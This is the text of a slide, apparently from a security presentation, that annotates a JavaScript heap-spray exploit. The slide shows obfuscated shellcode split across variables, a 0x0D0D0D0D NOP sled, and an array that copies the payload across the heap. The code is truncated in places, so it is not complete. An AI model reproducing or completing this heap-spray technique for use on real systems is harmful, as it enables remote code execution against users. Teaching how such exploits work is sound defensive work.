

var z = "8afe%uef0e%ue0ce%u3660%u2f1a";
var z2 = "%u56ff%u510c%u8b56%u3c75%u748b%u782e%u";
var z3 = "0%u8300%u20ec%udc8b%u206a%uff53%u0456";
var z4 = "%u1c70%u8bad%u0868%uf78b%u0";
var z5 = "0%ua164%u0030%u0000%u408b%u8b0c";
var z6 = "%u04c7%u5c03%u2e61%uc765%u0";
var z7 = "%u8b5e%u245e%udd03%u8b66%";
...

var shellcode = unescape("%u4343"+"%u4343"+"%u4343" + "%ua3e9%u0000%u5f0"+ z5 + z4 + "46a%ue859%u0043%u0000" +"%uf9e2%u6f68%u006e%u6800%u7275%u6d6c%uff54%u9516" +"%u2ee8%u000" + z3 +z6 + "344%u7804%u0065%u3300“ +"%u50c0%u5350%u5057%u56ff%u8b10%u50dc%uff53%u0856" +z2 + "f503%u8b56" +"%u2076%uf503%uc933%u4149%u03ad%u33c5%u0fdb%u10be" +"%ud63a%u0874%ucbc1%u" ...

skipper = unescape("%u0D0D%u0D0D");
while (skipper.length<20+shellcode.length)  {  skipper+=skipper; }

skipper1 = skipper.substring(0, 20+shellcode.length);
skipper2 = skipper.substring(0, skipper.length-20-shellcode.length);

while(skipper2.length<(0x40000-20-shellcode.length)) {
	skipper2 += skipper2;
	skipper2 += skipper1; //skipper2 = skipper2+skipper2+skipper1;}

context = new Array();
ii=-1;
while(++ii<414)
{
	context[ii] = skipper2 + shellcode;
}
Shellcode payload
Build up nopsled of:

or eax,0D0D0D0Dh
Alloc array
Then copy it multiple times onto the heap